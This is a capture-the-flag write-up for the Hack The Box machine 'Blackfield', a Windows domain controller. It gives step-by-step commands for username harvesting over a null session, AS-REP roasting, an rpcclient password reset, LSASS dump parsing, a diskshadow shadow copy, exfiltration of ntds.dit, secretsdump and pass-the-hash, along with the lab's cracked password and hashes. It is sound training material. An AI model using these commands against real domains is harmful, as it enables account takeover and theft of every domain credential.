# HTB: Blackfield — Writeup

**Difficulty:** Hard
**OS:** Windows (Active Directory / Domain Controller)
**Techniques:** SMB null session enumeration, AS-REP roasting, BloodHound DACL abuse (`ForceChangePassword`), RPC password reset, LSASS memory dump credential extraction, `SeBackupPrivilege` abuse, Volume Shadow Copy via `diskshadow`, `ntds.dit`/SYSTEM hive exfiltration, offline DC hash dump, pass-the-hash

---

## Overview

Blackfield is a Windows Domain Controller for `BLACKFIELD.local`. A null SMB session against the `profiles$` share leaks several hundred usernames, one of which (`support`) has Kerberos pre-authentication disabled and falls to AS-REP roasting. The cracked `support` credentials don't give direct access to anything interesting, but BloodHound reveals `support` holds `ForceChangePassword` rights over another account, `audit2020` — abused over RPC with `rpcclient` to set a known password without needing the original. `audit2020` can read a `forensic` share containing an LSASS memory dump, which `pypykatz` parses to recover the NT hash for `svc_backup`. That account is a member of **Backup Operators**, granting `SeBackupPrivilege` over WinRM — used via `diskshadow` to mount a Volume Shadow Copy of `C:\` and pull a readable copy of `ntds.dit` and the `SYSTEM` registry hive off the locked, live database. `secretsdump.py` dumps every domain hash offline, including the Administrator's, and a straight pass-the-hash login over WinRM finishes the box.



---

## Recon

### Nmap

A full TCP port scan (`nmap -p- -sCV -Pn`) against `10.129.229.17` found:

| Port | Service |
|---|---|
| 53/tcp | DNS (Simple DNS Plus) |
| 88/tcp | Kerberos |
| 135/tcp | MSRPC |
| 389/tcp | LDAP (`BLACKFIELD.local`) |
| 445/tcp | SMB |
| 593/tcp | RPC over HTTP |
| 3268/tcp | Global Catalog LDAP |
| 5985/tcp | WinRM (HTTPAPI) |

The LDAP service banner confirmed the domain (`BLACKFIELD.local`) and that the host (`DC01`) is a Domain Controller. SMB signing was enabled and required.

```
nmap -p- -sCV 10.129.229.17 -oA nmap/blackfield -Pn
```

`blackfield.htb` / `DC01` / `BLACKFIELD` were added to `/etc/hosts` pointing at the target IP.



### SMB Null Session

`nxc` confirmed null authentication was permitted, and a guest-style login (`-u 'dark' -p ''`) was enough to enumerate shares:

```
nxc smb 10.129.229.17 -u 'dark' -p '' --shares
```

| Share | Access | Note |
|---|---|---|
| `ADMIN$` | — | Remote Admin |
| `C$` | — | Default share |
| `forensic` | — | Forensic / Audit share (not yet accessible) |
| `IPC$` | READ | Remote IPC |
| `NETLOGON` | — | Logon server share |
| `profiles$` | READ | — |
| `SYSVOL` | — | Logon server share |



`profiles$` was readable and contained one directory per domain user (all empty) — over 300 entries, giving a comprehensive username list:

```
smbclient \\\\blackfield.htb\\profiles$ -N -c ls | awk '{print $1}' > users.txt
```




---

## Initial Foothold — AS-REP Roasting

With a username list in hand, `GetNPUsers.py` was run against every candidate to check for accounts with Kerberos pre-authentication disabled (`UF_DONT_REQUIRE_PREAUTH`):

```
GetNPUsers.py -usersfile users.txt -format john -outputfile hashes -request -no-pass -dc-ip 10.129.229.17 blackfield.local/
```

Most usernames returned `KDC_ERR_C_PRINCIPAL_UNKNOWN` (not real accounts), but `support` was vulnerable and yielded a crackable `$krb5asrep$` hash.

`hashcat`/`john` against `rockyou.txt` cracked it almost immediately:

```
john hashes -w=/usr/share/wordlists/rockyou.txt
john hashes --show
```

**Credentials recovered:** `support@BLACKFIELD.LOCAL : #00^BlackKnight`



These credentials authenticated over SMB but did not grant LDAP or WinRM access directly.

---

## Lateral Movement — BloodHound + RPC Password Reset

### BloodHound Collection

Using the `support` credentials, `bloodhound-ce-python` collected the domain's AD graph:

```
bloodhound-ce-python -c all -d blackfield.local -u 'support@BLACKFIELD.LOCAL' -p '#00^BlackKnight' -ns 10.129.229.17
```



Analysis in the BloodHound GUI showed `support` held a **`ForceChangePassword`** edge over the `audit2020` account — the ability to reset that account's password outright, without knowing the current one.



### Abusing ForceChangePassword via RPC

That right doesn't require LDAP or PowerShell tooling — it maps directly onto `SAMR`'s `SetUserInfo2` call, exposed through `rpcclient`:

```
rpcclient -U 'BLACKFIELD.LOCAL/support' --password='#00^BlackKnight' 10.129.229.17
rpcclient $> setuserinfo2 AUDIT2020 23 Password123!
```

The reset succeeded silently, and the new credentials were confirmed with `nxc`:

```
nxc smb blackfield.htb -u AUDIT2020 -p 'Password123!' --shares
```



`audit2020` turned out to have read access to the previously-inaccessible `forensic` share:



---

## Credential Extraction — LSASS Memory Dump

The `forensic` share contained investigation artifacts from a prior (in-fiction) incident, including `lsass.zip` — a compressed memory dump of `lsass.exe`.

```
smbclient \\\\blackfield.htb\\forensic -U AUDIT2020
mkdir zip && cd zip
unzip lsass.zip
```



`pypykatz` parsed the minidump directly (no need to touch the live target):

```
pypykatz lsa minidump lsass.DMP
```

This recovered a live logon session for `svc_backup`:

```
username svc_backup
domainname BLACKFIELD
NT: 9658d1d1dcd9250115e2205d9f48400d
```



Pass-the-hash confirmed working WinRM access as `svc_backup`:

```
nxc winrm blackfield.htb -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```




`user.txt` was retrieved from `C:\Users\svc_backup\Desktop\user.txt`.

---

## Privilege Escalation — SeBackupPrivilege → ntds.dit → Administrator

### Discovering Backup Operator rights

Inside the `evil-winrm` shell as `svc_backup`, `whoami /priv` showed:

```
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```

— membership in **Backup Operators**, which effectively bypasses NTFS ACLs for read/write via the backup/restore APIs.



### Volume Shadow Copy via diskshadow

The Active Directory database (`ntds.dit`) is locked while the DC is running, so it can't be copied directly. `SeBackupPrivilege` alone doesn't bypass the file lock — a Volume Shadow Copy of `C:\` was created instead using `diskshadow`, which *does* respect `SeBackupPrivilege` even though the account isn't a full local admin (unlike `vssadmin`, which was tried first and refused with a permissions error).

`backup.txt` (a diskshadow script) was uploaded and iterated on until it worked cleanly:

```
set context persistent nowriters
set metadata C:\Windows\Temp\backup.cab
set verbose on
add volume C:
create
expose %VSS_SHADOW_1% G:
```



```
diskshadow /s backup.txt
```



This exposed the shadow copy as drive `G:\`, giving read access to a consistent, unlocked snapshot of `C:\` — including `G:\Windows\ntds\ntds.dit`. A `notes.txt` found on the snapshot (left by "Mike", the fictional sysadmin) confirmed this was the intended path, referencing a sensitive audit report and a backup/restore workflow.

### Copying ntds.dit and the SYSTEM hive

`robocopy` in backup mode (`/B`) copies files while honoring `SeBackupPrivilege`, sidestepping the ACLs that would otherwise block `svc_backup`:

```
robocopy /B G:\Windows\ntds C:\Users\svc_backup\Documents ntds.dit
```



The `SYSTEM` registry hive (needed to derive the boot key for decrypting the NTDS secrets) was saved with `reg.exe`:

```
REG SAVE HKLM\SYSTEM system
```




Both files were pulled back to the attacking machine via evil-winrm's `download`:

```
download ntds.dit
download system
```



### Offline hash extraction

```
secretsdump.py -system system -ntds ntds.dit LOCAL
```

This decrypted every domain account's NT hash, including:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```



### Administrator access

A first pass-the-hash attempt against `administrator` accidentally used the **LM** hash field (`aad3b435b51404eeaad3b435b51404ee` — the well-known empty-LM-hash placeholder present on every account) instead of the account-specific **NT** hash, and correctly failed with `WinRMAuthorizationError`. Re-running with the actual NT hash succeeded:

```
evil-winrm -i 10.129.229.17 -u 'administrator' -H '184fb5e5178480be64824d4cd53b99ee'
```



`root.txt` retrieved from `C:\Users\Administrator\Desktop\root.txt`.

---

## Summary of Techniques

| Stage | Technique |
|---|---|
| Recon | Full TCP port scan identifying a Windows DC (Kerberos, LDAP, SMB, WinRM) |
| Enumeration | SMB null/guest session against `profiles$` to harvest ~300 usernames |
| Foothold | AS-REP roasting (`GetNPUsers.py`) against `support`, cracked offline with `rockyou.txt` |
| Lateral | BloodHound-identified `ForceChangePassword` DACL edge, abused via `rpcclient setuserinfo2` to reset `audit2020`'s password without the original credential |
| Credential access | LSASS minidump (`forensic` share) parsed offline with `pypykatz` to recover `svc_backup`'s NT hash |
| Access | Pass-the-hash WinRM login as `svc_backup` |
| PrivEsc (technique) | `SeBackupPrivilege` (Backup Operators) abused via `diskshadow` VSS snapshot + `robocopy /B` + `reg save` to exfiltrate the locked `ntds.dit` and `SYSTEM` hive |
| PrivEsc (execution) | Offline `secretsdump.py` against the exfiltrated files to dump every domain NT hash |
| Root | Pass-the-hash WinRM as Administrator using the correct **NT** hash (not the LM placeholder) |

---

## Lessons / Takeaways

- Null/guest SMB sessions on a DC can leak a full username list even when every share looks otherwise empty — that alone is enough to fuel an AS-REP roast.
- `ForceChangePassword` DACL rights are a full account takeover primitive and don't require knowing the victim's current password — `rpcclient`'s `setuserinfo2` (SAMR `SetUserInfo2`) is a lightweight way to abuse it without deploying BloodHound-adjacent tooling on the target.
- Live memory dumps (crash dumps, forensic artifacts, `lsass.exe` minidumps) are effectively plaintext-adjacent credential stores — treat any exposed dump file as a credential leak until proven otherwise.
- Membership in **Backup Operators** is equivalent to arbitrary file read/write on the filesystem via `SeBackupPrivilege`/`SeRestorePrivilege`, even without local admin — `diskshadow` succeeds where `vssadmin` refuses, because `vssadmin` additionally checks for full admin rights while `diskshadow`'s scripted mode only needs the backup privilege itself.
- `secretsdump.py`'s output format is `domain\user:RID:LMhash:NThash:::` — the LM field is almost always the constant empty-hash placeholder (`aad3b435b51404eeaad3b435b51404ee`); passing it instead of the NT hash to a pass-the-hash tool is a very easy, very common mistake and fails authentication outright rather than silently degrading.
